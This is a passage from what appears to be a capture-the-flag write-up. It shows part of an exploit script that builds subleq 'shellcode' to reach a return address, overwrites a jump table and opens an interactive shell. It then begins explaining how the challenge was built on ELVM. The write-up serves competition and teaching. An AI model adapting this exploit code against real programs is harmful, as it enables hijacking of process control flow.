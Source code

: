 ```
shellcode+= subleq(to_data(3), 5) # [5] -= 1<<56
shellcode+= subleq(1, 5)          # [5] += 1
shellcode+= subleq(0, 0)
shellcode+= subleq(0, 0)
shellcode+= subleq(0, 0)
shellcode+= subleq(1, 7) # counter += 1

shellcode+= subleq(8, 8)
shellcode+= subleq(2, 2)
shellcode+= subleq(7, 2)
shellcode+= subleq(2, 8) # [8] = counter
shellcode+= subleq(to_data(4), 8, div_label)
# now [5] points to return address
shellcode+= subleq(2, 2)
shellcode+= subleq(0, 0)
shellcode+= subleq(2, 2)
shellcode+= subleq(5, 2)
shellcode+= subleq(2, cur_ip+6)
shellcode+= subleq(2, cur_ip+4)
shellcode+= subleq(0, 0)
shellcode+= subleq(to_data(5), 3)
shellcode+= subleq(3, 11)
shellcode+= subleq(2, cur_ip+4)
shellcode+= subleq(11, 0)
shellcode+= subleq(0, 0, -2)

send_ints(shellcode)

send_str("\x00" * (mem - len(shellcode)))

gdb_script = """
handle SIGSEGV stop nopass
c
set $rax=$rbx
b *op1
b *run_program+165
"""

#gdb.attach(p, gdb_script)

jmp_table = [1070,1134,1362,1558,1754,1950,2211,2456,2717,2962,3094,3110,3389,3521,3717,3720,3916,3919,4198,4333,4503,4906,5185,5325,5429,5754,25688,42696,43215,43715]
print(len(jmp_table))
jmp_table = [16] * len(jmp_table)
send_ints(jmp_table)
p.interactive()
```
{% endcapture %}
{% include widgets/toggle-field.html toggle-name="solve_py" button-text="Show exp.py" toggle-text=solve_py %}
## How the challenge is built
### ELVM
The challenge is mostly build on top of ELVM with a small modification to the subleq backed. The default configuration would generate $2^{24}$ 0s as the memory and that would be a huge file to reverse. I changed the backend a little bit so that the output is shorter and there are no comments. The diff is as follow.
